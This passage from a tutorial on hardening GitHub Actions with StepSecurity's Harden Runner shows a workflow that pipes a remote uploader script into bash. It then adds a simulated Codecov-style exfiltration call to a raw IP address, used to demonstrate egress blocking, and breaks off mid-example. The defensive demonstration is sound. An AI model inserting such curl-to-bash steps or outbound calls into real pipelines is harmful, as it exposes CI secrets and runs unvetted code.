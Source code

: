    The updated file should look like this:

   ```yaml
   name: Test and coverage

   on: [push, pull_request, workflow_dispatch]

   jobs:
     build:
       runs-on: ubuntu-latest
       steps:
         #Add StepSecurity Harden Runner from here onwards
         - uses: step-security/harden-runner@v1
           with:
             egress-policy: block
             allowed-endpoints: >
               codecov.io:443
               github.com:443
         - uses: actions/checkout@v2
           with:
             fetch-depth: 2
         - uses: actions/setup-go@v2
           with:
             go-version: "1.17"
         - name: Run coverage
           run: go test -race -coverprofile=coverage.txt -covermode=atomic
         - name: Upload coverage to Codecov
           run: |
             bash <(curl -s https://codecov.io/bash)
   ```

8. Simulate an exfiltration attack similar to Codecov. Update the workflow and add the following statement. The bash uploader is no longer vulnerable, but when it was, it would have made an additional outbound call, which is being simulated here.

   ```yaml
   - name: Upload coverage to Codecov
     run: |
       bash <(curl -s https://codecov.io/bash)
       curl -X GET http://104.248.94.23
   ```

   The updated file should look like this:

   ```yaml
   name: Test and coverage

   on: [push, pull_request, workflow_dispatch]

   jobs:
     build:
       runs-on: ubuntu-latest
       steps:
         #Add StepSecurity Harden Runner from here onwards
         - uses: step-security/harden-runner@v1
           with:
             egress-policy: block
             allowed-endpoints: >
               codecov.io:443
               github.com:443
         - uses: actions/checkout@v2
           with:
             fetch-depth: 2
         - uses: actions/setup-go@v2
           with:
             go-version: "1.17"
         - name: Run coverage
   ```